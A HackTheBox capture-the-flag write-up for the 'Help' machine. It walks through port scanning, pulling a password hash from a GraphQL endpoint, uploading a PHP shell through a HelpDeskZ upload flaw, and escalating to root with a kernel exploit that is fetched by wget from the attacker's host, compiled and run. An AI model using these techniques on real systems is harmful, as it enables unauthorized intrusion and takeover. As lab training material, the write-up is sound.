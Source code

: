 ```yaml
---
title: "HackTheBox: Help Write Up!"
date: 2019-04-02
tags: [Hackthebox, ctf, writeup, Help]
excerpt: "HackTheBox: Help Write Up!"
header:
  image: "assets/images/hackthebox-images/carrier-hackthebox-header.png"

---
```


# Enumeration:

## Nmap:

```console
root@HassanKhan:~# nmap -p- 10.10.10.121 --max-retries 0 -o help-max.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-21 14:42 EST
Warning: 10.10.10.121 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.121
Host is up (0.21s latency).
Not shown: 38798 filtered ports, 26735 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```console
root@HassanKhan:~# nmap -p- 10.10.10.121 -T4 -Pn -o help-all.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-21 14:43 EST
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 2.40% done; ETC: 14:54 (0:10:52 remaining)
Warning: 10.10.10.121 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.121
Host is up (0.22s latency).
Not shown: 65525 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
3000/tcp  open     ppp
8095/tcp  filtered unknown
15523/tcp filtered unknown
17954/tcp filtered unknown
17965/tcp filtered unknown
43723/tcp filtered unknown
60785/tcp filtered unknown
62421/tcp filtered unknown
```

## Fetching credentials from graphql Port 3000:

Index page:

```console
root@HassanKhan:~# curl "http://10.10.10.121:3000/" && echo -e "\n"
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

I ran dirsearch and was able to find the endpoing query. After looking at the syntax of graphql that how it works, I was finally able to query the right syntax and was able to fetch credentials from that.

```console
root@HassanKhan:~/oscp/hackthebox/swagshop# curl -s "http://10.10.10.121:3000/graphql?query=query%20%7B%20%0A%20%20user%7Busername:password%7D%0A%7D&variables=%7B%7D" | jq
{
  "data": {
    "user": {
      "username": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```
Decrypt the md5 hash:

5d3c93182bb20f07b994a7f617e99cff : godhelpmeplz

Additionally, I have used extension that helped me to query the right syntax of graphql. That extension is “Altair Graphql Client”.

## Port 80:

Nikto scan:

```console
root@HassanKhan:~# nikto -h 10.10.10.121

Nikto v2.1.6/2.1.5
Target Host: 10.10.10.121
Target Port: 80
GET Server leaks inodes via ETags, header found with file /, fields: 0x2c37 0x57ff4a041d89c
GET The anti-clickjacking X-Frame-Options header is not present.
GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
OPTIONS Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
OSVDB-3268: GET /admin/: Directory indexing found.
OSVDB-3092: GET /admin/: This might be interesting...
GET Cookie PHPSESSID created without the httponly flag
GET Cookie lang created without the httponly flag
OSVDB-3092: GET /support/: This might be interesting...
OSVDB-3233: GET /icons/README: Apache default file found.
```

Nothing interesting expect the /admin/ directories. Running dirsearch on port 80 brought /support/
 directory in front of me which was helpdeskz.

 Looking if there's any exploit available for the helpdeskz.

## Exploitation:

 So we found 2 exploits so far. great! As, helpdeskz is open-source, we can check that how does file upload work.
 @ https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/view_tickets_controller.php

 To made the exploit work, I had to do some modifications in the exploit that were:
 1- adjusting the time that is
 currentTime = int(time.time() + 7200) and
 2- changing the loop
 for x in range(0, 500): // 500 all most 8 mins

 You have to do modifications to the exploit code according to the difference between your time and the server response time. anyways, this could be done manually as well. Manual steps will be:

+ Uploaded php file splint3r7.php
+ Extracted the data header from response
+ converted the date header into seconds timestamp
@ https://www.epochconverter.com/
+ converted md5(filename.phptimestamp)
+ Found the shell on server with directory:
+ 10.10.10.121/support/uploads/tickets/md5string.php

## Privilege Escalation:

```console
$ uname -a
linux 4.4.0-116-generic
```

Exploit:
@ https://www.exploit-db.com/exploits/44298

```console
help@help:/tmp$ wget 10.10.14.49:1330/exploit1337.c
help@help:/tmp$ gcc exploit1337.c -o exploit1337h
gcc exploit1337.c -o exploit1337h
help@help:/tmp$ ./exploit1337h
./exploit1337h
id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
cd /root/
ls -la
cat root.txt
b7fe6082dcdf0c1b1e02ab0d9daddb98
```

And we just owned the root ;)

